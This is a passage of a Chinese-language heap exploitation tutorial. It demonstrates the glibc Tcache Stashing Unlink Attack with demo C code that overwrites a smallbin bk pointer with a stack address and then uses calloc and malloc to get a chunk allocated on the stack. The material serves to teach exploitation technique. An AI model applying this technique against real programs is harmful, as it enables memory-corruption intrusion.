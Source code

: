 然后把 smallbin 中的 bk 指针改为一个栈地址

```plain
printf("Now we emulate a vulnerability that can overwrite the victim->bk pointer into fake_chunk addr: %p.\n\n",(void*)stack_var);

//change victim->bck
/*VULNERABILITY*/
chunk_lis[2][1] = (unsigned long)stack_var;
/*VULNERABILITY*/
```

[![](assets/1698893371-b3abca4b266a831cadc2a72b35b168fe.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231021220029-31938108-701a-1.png)

用 calloc 触发 Tcache Stashing Unlink Attack

```plain
//trigger the attack
    printf("Finally we alloc a 0x90 chunk with calloc to trigger the attack. The small bin preiously freed will be returned to user, the other one and the fake_chunk were linked into tcache bins.\n\n");
calloc(1,0x90);
```

[![](assets/1698893371-d2746820fe3295c49547a9ae440a174a.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231021220037-36223962-701a-1.png)

可以看到将一个栈上的 fake chunk 置入了 unsortedbin 中

再 malloc 一次就可以在该地址分配一个 chunk

```plain
printf("As you can see, next malloc(0x90) will return the region our fake chunk: %p\n",(void*)target);
assert(target == &stack_var[2]);
```

